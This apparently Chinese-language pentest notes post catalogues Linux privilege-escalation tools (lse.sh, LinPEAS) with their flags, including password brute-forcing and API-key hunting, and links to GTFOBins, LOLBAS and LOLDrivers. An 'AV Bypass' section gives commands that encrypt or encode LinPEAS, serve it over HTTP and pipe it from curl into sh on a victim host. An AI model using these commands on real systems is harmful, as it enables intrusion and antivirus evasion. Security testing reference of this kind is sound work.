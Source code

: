 ```yaml
---
profileName: redcamellia
postId: "78"
postType: post
categories:
  - 3
---
```

...............................
# lse.sh
Link: (https://github.com/diego-treitos/linux-smart-enumeration)(Another Version of LinENUM)
Usage: 直接上传执行
For: Linux权限提升建议脚本
Parameters: 
```
首先，您应该像 `./lse.sh` 一样执行它。如果你看到一些绿色的 `yes!` ，你可能已经有一些好东西可以使用了。

如果没有，您应该尝试使用 `./lse.sh -l1` 的 `level 1` 详细程度，您将看到更多有趣的信息。
 
如果这没有帮助， `level 2` 将转储您可以使用 `./lse.sh -l2` 收集的有关服务的所有内容。在这种情况下，您可能会发现使用 `./lse.sh -l2 | less -r` 很有用。
 
还可以通过传递 `-s` 参数来选择要执行的测试。有了它，您可以选择要执行的特定测试或部分。例如， `./lse.sh -l2 -s usr010,net,pro` 将执行测试 `usr010` 以及 `net` 和 `pro` 部分中的所有测试。
```
...............................
# LinPEAS
Link:https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
For: Linux权限提升建议脚本
Usage: 直接上传执行，没有依赖项。
Parameters: 
``` 
    -a（除正则表达式外的所有检查） - 这也将在 1 分钟内执行进程检查，将在文件中搜索更多可能的哈希值，并使用带有 top2000 密码的 `su` 暴力破解每个用户。 
    -e （extra enumeration） - 这将执行默认情况下避免的枚举检查  
    -r （regex checks） - 这将在文件系统中搜索数百个不同平台的 API 密钥
    -s （superfast & stealth） - 这将绕过一些耗时的检查 - 隐身模式（不会将任何内容写入磁盘）
    -P （Password） - 传递将用于 `sudo -l` 和暴力破解其他用户的密码
    -D （Debug） - 打印有关未发现任何内容的检查以及每次检查所花费时间的信息 
    -d/-p/-i/-t （本地网络枚举） - Linpeas 还可以发现和端口扫描本地网络
```
AV Bypass:
```
#open-ssl encryption
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```

...............................
# GTFOBins
Link: https://gtfobins.github.io/
For: Unix 二进制文件的精选列表，可用于绕过配置错误的系统中的本地安全限制
...............................
# LOLBAS
Link: https://lolbas-project.github.io/
For: Windows二进制文件的精选列表，可用于绕过配置错误的系统中的本地安全限制
...............................
# LOLDrivers
Link: https://www.loldrivers.io/
For: 攻击者用来绕过安全控制和执行攻击的精选 Windows 驱动程序列表

...............................